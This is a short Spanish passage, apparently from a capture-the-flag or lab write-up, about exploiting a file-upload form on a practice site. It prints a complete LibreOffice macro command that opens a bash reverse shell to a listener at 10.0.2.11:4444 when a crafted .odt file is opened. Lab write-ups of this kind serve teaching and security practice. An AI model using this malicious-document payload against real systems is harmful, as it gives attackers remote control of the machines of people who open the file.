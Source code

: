Vi que en la página http://gyhabogados.thl/work-with-us.php hay un formulario en el que se pueden subir archivos .pdf, .doc y .odt. Asi que me pareció interesante probar a subir un archivo .odt con una Macro que ejecutase una Reverse Shell en el momento de abrir el archivo.

![alt text](captura_2025-05-02_17-21-46.png)

# Explotación

Creo un nuevo archivo .odt con Libre Office y en Tools > Macros > Edit Macros... Creo una nueva Macro llamada Main en el que ejecuto el siguiente comando:

`Shell("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.0.2.11/4444 0>&1")`

![alt text](captura_2025-05-02_17-22-47.png)
